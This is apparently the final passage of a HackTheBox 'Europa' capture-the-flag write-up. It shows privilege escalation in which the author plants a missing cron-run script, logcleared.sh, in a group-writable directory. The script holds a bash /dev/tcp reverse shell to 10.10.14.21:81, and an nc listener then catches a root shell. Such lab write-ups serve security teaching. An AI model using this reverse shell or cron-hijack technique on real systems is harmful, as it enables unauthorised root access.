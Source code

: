 ```
www-data@europa:/var/www$ ls -l 
total 16
drwxr-xr-x 7 root root     4096 Jul 27  2017 admin
drwxrwxr-x 2 root www-data 4096 May 12  2017 cmd
drwxr-xr-x 2 root root     4096 Jun 23  2017 cronjobs
drwxr-xr-x 2 root root     4096 Jul 27  2017 html
www-data@europa:/var/www$ ls cmd/
www-data@europa:/var/www$ 
```

There is no bash script by the name `logcleared.sh` in `/var/www/cmd`. Since there is write permission for `www-data` group, we can create the same bash script. 

```
www-data@europa:/var/www/cmd$ chmod +x logcleared.sh 
www-data@europa:/var/www/cmd$ cat logcleared.sh 
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.21/81 0>&1"
www-data@europa:/var/www/cmd$
```

I have created the `logcleared.sh` with a bash reverse shell in it. Now set up a listener and wait for 1 minute.

```
root@kali:~# nc -nlvp 81
listening on [any] 81 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.22] 48154
bash: cannot set terminal process group (1827): Inappropriate ioctl for device
bash: no job control in this shell
root@europa:~# id && hostname                  
id && hostname
uid=0(root) gid=0(root) groups=0(root)
europa
root@europa:~#
```

And we are **root**. You can read the root flag too now.

So that is **Europa** from **HackTheBox**. Thanks for reading this far.

If you liked this write-up, you can **buy me a coffee**. I'd appreciate it :)

<script type="text/javascript" src="https://cdnjs.buymeacoffee.com/1.0.0/button.prod.min.js" data-name="bmc-button" data-slug="nehalzaman" data-color="#FFDD00" data-emoji=""  data-font="Cookie" data-text="Buy me a coffee" data-outline-color="#000000" data-font-color="#000000" data-coffee-color="#ffffff" ></script>

I will see you in the next write-up. **PEACE**.

